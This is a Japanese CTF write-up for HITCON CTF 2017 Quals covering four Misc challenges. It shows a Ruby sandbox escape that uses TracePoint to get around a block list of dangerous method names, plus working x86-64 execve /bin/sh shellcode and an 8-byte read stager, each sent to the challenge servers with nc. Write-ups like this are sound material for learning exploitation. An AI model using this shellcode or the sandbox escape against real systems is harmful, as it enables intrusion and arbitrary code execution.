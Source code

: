 ```yaml
---
layout: post
title: HITCON CTF 2017 Quals の write-up
categories: [ctf]
date: 2017-11-07 09:00:00 +0900
---
```


チーム Harekaze で [HITCON CTF 2017 Quals](https://ctf2017.hitcon.org) に参加しました。最終的にチームで 1120 点を獲得し、順位は得点 1075 チーム中 53 位でした。

以下、解いた問題の write-up です。

## [Misc 137] Data & Mining

`traffic-1b2b39e2c2231e6b98c77700da047b78.pcapng` という 200 MB ほどのサイズの pcapng ファイルが与えられました。

`strings` で `hitcon` を探してみるとフラグが得られました。

```
$ strings traffic-1b2b39e2c2231e6b98c77700da047b78.pcapng | grep hitcon
{"method":"login","params":{"login":"45duiDz79Y2AtSZH2pw9uV8YXmvtAT8tVNAYrfKTUnYiQZT5BMdRrGD4hbipmZ5DoaQXLak9ENEwYNC7kVk3ivDyMHyZCVV","pass":"hitcon{BTC_is_so_expensive_$$$$$$$}","agent":"xmr-stak-cpu/1.3.0-1.5.0"},"id":1}
```

```
hitcon{BTC_is_so_expensive_$$$$$$$}
```

## [Misc 210] Baby Ruby Escaping

以下のような Ruby で書かれたソースコードが与えられました。

```ruby
#!/usr/bin/env ruby

require 'readline'

proc {
  my_exit = Kernel.method(:exit!)
  my_puts = $stdout.method(:puts)
  ObjectSpace.each_object(Module) { |m| m.freeze if m != Readline }
  set_trace_func proc { |event, file, line, id, binding, klass|
    bad_id = /`|exec|foreach|fork|load|method_added|open|read(?!line$)|require|set_trace_func|spawn|syscall|system/
    bad_class = /(?<!True|False|Nil)Class|Module|Dir|File|ObjectSpace|Process|Thread/
    if event =~ /class/ || (event =~ /call/ && (id =~ bad_id || klass.to_s =~ bad_class))
      my_puts.call "\e[1;31m== Hacker Detected (#{$&}) ==\e[0m"
      my_exit.call
    end
  }
}.call

loop do
  line = Readline.readline('baby> ', true)
  puts '=> ' + eval(line, TOPLEVEL_BINDING).inspect
end
```

私が問題を見た時点で、[@megumish](https://twitter.com/megumish) さんが Readline によって Tab キーを押すことでフラグが含まれていそうなファイルの名前が補完されることが分かっていました。

```
$ nc 52.192.198.197 50216
baby> (Tab キーを 2 回押下)
.bash_logout
.bashrc
.profile
jail.rb
thanks_readline_for_completing_the_name_of_flag
baby>
```

早速このファイルの内容を得ようとしてみたところ、`set_trace_func` で登録されていた proc によって邪魔されてしまいました。

```
baby> File.read 'thanks_readline_for_completing_the_name_of_flag'
File.read 'thanks_readline_for_completing_the_name_of_flag'
== Hacker Detected (read) ==
```

このチェックを置き換えることはできないか調べてみると、[TracePoint](https://docs.ruby-lang.org/ja/latest/class/TracePoint.html) という `set_trace_func` のような機能を見つけました。

例外が発生すると `thanks_readline_for_completing_the_name_of_flag` の内容を `puts` するようなコードを書いてみましょう。

```ruby
TracePoint.trace(:raise) { puts File.read 'thanks_readline_for_completing_the_name_of_flag' }
```

実際に試してみましょう。

```
$ nc 52.192.198.197 50216
baby> TracePoint.trace(:raise) { puts File.read 'thanks_readline_for_completing_the_name_of_flag' }
<'thanks_readline_for_completing_the_name_of_flag' }
=> #<TracePoint:enabled>
baby> a
a
hitcon{Bl4ckb0x.br0k3n? ? puts(flag) : try_ag4in!}
hitcon{Bl4ckb0x.br0k3n? ? puts(flag) : try_ag4in!}
<main>:in `<main>': undefined local variable or method `a' for main:Object (NameError)
        from /home/jail/jail.rb:21:in `eval'
        from /home/jail/jail.rb:21:in `block in <main>'
        from /home/jail/jail.rb:19:in `loop'
        from /home/jail/jail.rb:19:in `<main>'
```

フラグが得られました。

```
hitcon{Bl4ckb0x.br0k3n? ? puts(flag) : try_ag4in!}
```

## [Misc 144] Easy to say

`easy_to_say-c7dd6cdf484305f7aaac4fa821796871` というファイルが与えられました。`file` に投げてどのようなファイルか確認しましょう。

```
$ file ./easy_to_say-c7dd6cdf484305f7aaac4fa821796871
easy_to_say-c7dd6cdf484305f7aaac4fa821796871: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ebaecbb5f55329380b6476b55253b4ea59d91891, stripped
```

x86_64 の ELF のようです。実行してみましょう。

```
$ ./easy_to_say-c7dd6cdf484305f7aaac4fa821796871 
Give me your code :a
Run !
Illegal instruction
```

`objdump` で何をやっているか読んでみると、24 バイトまで読み込み -> 2 回以上出現するバイトがないかチェック -> `rsp` 以外のレジスタを 0 に初期化 -> 入力された命令列を実行という処理を行っていることが分かりました。

[Linux/x86-64 - Execute /bin/sh - 27 bytes](http://shell-storm.org/shellcode/files/shellcode-806.php) を元に、必要ない命令を削ったり重複するバイトが出現しないようにいじると以下のようなシェルコードができました。

```
bits 64
start:
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    xor al, 0x3b
    syscall
```

ですが、このままだと `mov rbx, 0xFF978CD091969DD1` と `neg rbx` で REX プリフィックスの部分が被ってしまいます。`neg rbx` の方を `48` (`rex.W`) から `4a` (`rex.WX`) に変えてしまいましょう。

```
$ (echo -en "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x4a\xf7\xdb\x53\x54\x5f\x34\x3b\x0f\x05"; cat) | nc 52.69.40.204 8361
Give me your code :Run !
ls /home/
easy_to_say
ls /home/easy_to_say/
easy_to_say
flag
run.sh
cat /home/easy_to_say/flag
hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}
```

フラグが得られました。

```
hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}
```

## [Misc 255] Re: Easy to say

`re_easy_to_say-4d171ed2949ad2e9fcb5350c71aa80ec` という x86_64 の ELF ファイルが与えられました。内容はほとんど [Misc 144] Easy to say で与えられたものと同じですが、シェルコードは 8 バイト以内でなければならないという制限が加えられています。

`execve` で `/bin/sh` を実行する前に、stager を挟んで 9 バイト以上の命令列を読み込んで実行できるようにする必要がありそうです。

`rax` が 0 に初期化されているので、このまま `syscall` を呼ぶことで `read` ができます。第 2 段階のシェルコードの読み込み先として `rip` を手に入れる必要がありますが、`call a; a: pop rax` や `lea rax, [rip]` のような方法はシェルコード全体で 8 バイト以内という制限上厳しそうです。

なんとかできないか調べると、[Intel® 64 and IA-32 architectures software developer's manual](https://software.intel.com/sites/default/files/managed/7c/f1/253667-sdm-vol-2b.pdf#page=666) に以下のような説明がありました。

> SYSCALL invokes an OS system-call handler at privilege level 0. It does so by loading RIP from the IA32_LSTAR
> MSR (after saving the address of the instruction following SYSCALL into RCX). (The WRMSR instruction ensures
> that the IA32_LSTAR MSR always contain a canonical address.)

`syscall` を呼ぶ -> 第二引数に `rcx` を格納 -> `read` でシェルコードを書き込むという手順で `/bin/sh` の実行ができそうです。

```
$ asm -c amd64 "a: syscall; push rcx; pop rsi; mov dl, 0x7f; jmp a"
0f05515eb27febf8
$ (echo -en "\x0f\x05\x51\x5e\xb2\x7f\xeb\xf8"; echo -en "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05"; cat) | nc 13.112.180.65 8361
ls /home/
re_easy_to_say
ls /home/re_easy_to_say/
flag
re_easy_to_say
run.sh
cat /home/re_easy_to_say/flag
hitcon{sYsc4ll_is_m4g1c_in_sh31lc0d3}
```

フラグが得られました。

```
hitcon{sYsc4ll_is_m4g1c_in_sh31lc0d3}
```